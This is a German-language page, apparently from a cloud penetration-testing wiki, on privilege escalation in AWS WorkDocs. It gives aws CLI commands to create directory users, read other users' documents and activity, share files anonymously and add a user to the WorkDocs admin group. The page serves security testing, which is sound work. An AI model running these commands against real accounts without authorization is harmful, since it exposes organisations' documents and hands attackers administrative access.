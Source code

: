 # AWS - WorkDocs Privilege Escalation

## WorkDocs

Für weitere Informationen zu WorkDocs siehe:

{% content-ref url="../aws-services/aws-directory-services-workdocs-enum.md" %}
[aws-directory-services-workdocs-enum.md](../aws-services/aws-directory-services-workdocs-enum.md)
{% endcontent-ref %}

### `workdocs:CreateUser`

Erstellen Sie einen Benutzer im angegebenen Verzeichnis, um Zugriff auf WorkDocs und AD zu erhalten:
```bash
# Create user (created inside the AD)
aws workdocs create-user --username testingasd --given-name testingasd --surname testingasd --password <password> --email-address name@directory.domain --organization-id <directory-id>
```
### `workdocs:GetDocument`, `(workdocs:`DescribeActivities`)`

Die Dateien könnten sensible Informationen enthalten, lesen Sie sie:
```bash
# Get what was created in the directory
aws workdocs describe-activities --organization-id <directory-id>

# Get what each user has created
aws workdocs describe-activities --user-id "S-1-5-21-377..."

# Get file (a url to access with the content will be retreived)
aws workdocs get-document --document-id <doc-id>
```
### `workdocs:AddResourcePermissions`

Wenn Sie keinen Zugriff auf etwas haben, können Sie es einfach gewähren
```bash
# Add permission so anyway can see the file
aws workdocs add-resource-permissions --resource-id <id> --principals Id=anonymous,Type=ANONYMOUS,Role=VIEWER
## This will give an id, the file will be acesible in: https://<name>.awsapps.com/workdocs/index.html#/share/document/<id>
```
### `workdocs:AddUserToGroup`

Sie können einen Benutzer zum Administrator machen, indem Sie ihn der Gruppe ZOCALO_ADMIN hinzufügen.\
Befolgen Sie dazu die Anweisungen unter [https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html](https://docs.aws.amazon.com/workdocs/latest/adminguide/manage\_set\_admin.html)

Melden Sie sich mit diesem Benutzer bei Workdocs an und greifen Sie auf das Admin-Panel unter `/workdocs/index.html#/admin` zu.

Ich habe keinen Weg gefunden, dies über die Befehlszeile zu tun.
